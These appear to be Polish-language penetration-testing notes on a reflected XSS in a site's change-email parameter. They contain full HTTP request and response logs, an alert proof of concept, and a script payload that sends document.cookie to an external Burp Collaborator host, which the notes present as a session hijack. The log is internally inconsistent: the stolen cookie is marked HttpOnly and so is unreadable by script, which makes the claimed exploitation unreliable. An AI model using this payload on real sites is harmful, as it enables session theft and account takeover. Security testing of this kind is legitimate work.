

Tak jak myślałem wszedł XSS na /my-account przy zmianie maila. Wystarczy najprostszy możliwy payload, 0 walidacji, ciekawe na ile uda mi sie to wyeksploitować.

na razie tutaj sam poc, payload w parametrze w url zadziałał bez problemu:
```
GET /my-account/change-email&email=<script>alert(1)</script> HTTP/2
Host: site.com
Cookie: session=swLlKFgCifDSagb889lBVDmfPwPWDFSq
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i


HTTP/2 200 OK
Location: /my-account?id=user1
Set-Cookie: session=swLlKFgCifDSagb889lBVDmfPwPWDFSq; Secure; HttpOnly; SameSite=None
Date: Wed, 20 Mar 2024 05:08:53 GMT
X-Frame-Options: SAMEORIGIN
Content-Length: 117

<!DOCTYPE html>
<html>
	<body>
		<p>
			Successfully changed email to: 
			<script>
				alert(1)
			</script>
		</p>
	</body>
</html>

```

Tutaj screen z alertem jeśli bedzie potrzebny:



Co ważniejsze jest pełna eksploitacja, udało się przechwycić cookie, użytkowik przejęty, ewidentnie jest to critical severity

Ten payload zadziałał:
```
<script>
	fetch('https://xz0ojycv8xgr79iwkwvoygo0lrrife33.oastify.com', {
		method: 'POST',
		mode: 'no-cors',
		body: document.cookie
	});
</script>
```

Tutaj dowód XSSa, cookie leci w do collaboratora przez wstrzykniety skrypt

```
GET /my-account/change-email&email=<script>fetch('https%3a//xz0ojycv8xgr79iwkwvoygo0lrrife33.oastify.com',+{method%3a+'POST',mode%3a+'no-cors',body%3a+document.cookie})%3b</script> HTTP/2
Host: site.com
Cookie: session=swLlKFgCifDSagb889lBVDmfPwPWDFSq
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i


HTTP/2 200 OK
Location: /my-account?id=user1
Set-Cookie: session=swLlKFgCifDSagb889lBVDmfPwPWDFSq; Secure; HttpOnly; SameSite=None
Date: Wed, 20 Mar 2024 05:09:53 GMT
X-Frame-Options: SAMEORIGIN
Content-Length: 117

<!DOCTYPE html>
<html>
	<body>
		<p>
			Successfully changed email to: 
			<script>
				fetch('https://xz0ojycv8xgr79iwkwvoygo0lrrife33.oastify.com', {
					method: 'POST',
					mode: 'no-cors',
					body: document.cookie
				});
			</script>
		</p>
	</body>
</html>

```

No i na koniec dowód że faktycznie cookie wleciało na colaboratora w burpie:

```
POST / HTTP/1.1
Host: xz0ojycv8xgr79iwkwvoygo0lrrife33.oastify.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

session=swLlKFgCifDSagb889lBVDmfPwPWDFSq


HTTP/1.1 200 OK
Server: Burp Collaborator https://burpcollaborator.net/
X-Collaborator-Version: 4
Content-Type: text/html
Date: Wed, 20 Mar 2024 05:10:53 GMT
Content-Length: 55

<html><body>jc2lpou0mja3fus3kvkicpzjjgogz</body></html>
```

Podsumowując ewidentnie critical, dobra teraz trzeba sprawdzić jak działa proces kupowania przedmiotów bo tam pewnie coś się znajdzie cieekawego.